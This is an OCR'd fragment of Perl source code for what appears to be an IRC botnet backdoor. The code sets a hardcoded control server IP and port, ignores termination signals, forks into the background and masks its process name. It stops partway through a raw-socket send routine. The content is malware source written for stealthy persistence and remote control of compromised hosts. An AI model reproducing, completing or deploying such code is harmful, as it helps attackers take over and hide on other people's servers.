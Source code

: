 #Nickname of bot  

my $ircname ='[Protection]'; 

chop (my $realname = '[Protection]-'); 

#IRC name and Realname  

$servidor='78.129.172.35' unless $servidor; 

my $porta='6667';  

############################################ 

$SIG{'INT'} = 'IGNORE'; 

$SIG{'HUP'} = 'IGNORE'; 

$SIG{'TERM'} = 'IGNORE'; 

$SIG{'CHLD'} = 'IGNORE'; 

$SIG{'PS'} = 'IGNORE'; 

use IO::Socket; 

use Socket; 

use IO::Select; 

chdir("/"); 

  

#Connect 

$servidor="$ARGV[0]" if $ARGV[0]; 

$0="$processo"."\0"x16;; 

my $pid=fork; 

exit if $pid; 

die "Masalah fork: $!" unless defined($pid); 

  

our %irc_servers; 

our %DCC; 

my $dcc_sel = new IO::Select->new(); 

$sel_cliente = IO::Select->new(); 

sub sendraw { 

   if ($#_ == '1') { 

      my $socket = $_[0]; 

      print $socket "$_[1]\n"; 

  

   } else { 
